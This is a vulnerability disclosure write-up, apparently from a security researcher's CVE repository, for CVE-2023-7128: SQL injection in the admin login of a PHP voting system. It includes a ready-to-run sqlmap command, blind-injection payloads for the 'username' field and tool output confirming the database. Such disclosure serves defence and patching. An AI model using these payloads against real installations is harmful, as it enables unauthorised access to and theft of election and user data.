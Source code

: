 # CVE-2023-7128_Voting_System-SQL_Injection-1
+ **Exploit Title:** CVE-2023-7128_Voting_System-SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7128

## References: 
+ **CVE-2023-7128:** https://vuldb.com/?id.249131
+ https://www.cve.org/CVERecord?id=CVE-2023-7128
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7128

## Description:
Voting System 1.0 allows SQL Injection via parameter 'username' in "/votesystem/admin/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin login page: "http://localhost/votesystem/admin/"
+ Fill the username and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
sqlmap -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test' OR NOT 6416=6416-- SOwv&password=test&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 3547 FROM (SELECT(SLEEP(5)))OFWl)-- funY&password=test&login=
---
[18:54:43] [INFO] testing MySQL
[18:54:44] [INFO] confirming MySQL
[18:54:44] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:54:44] [INFO] fetching current database
[18:54:44] [INFO] resumed: votesystem
current database: 'votesystem'
```

+ current database: `votesystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/09972f6e-8875-4c94-b64d-3cebf4ff1ab8)

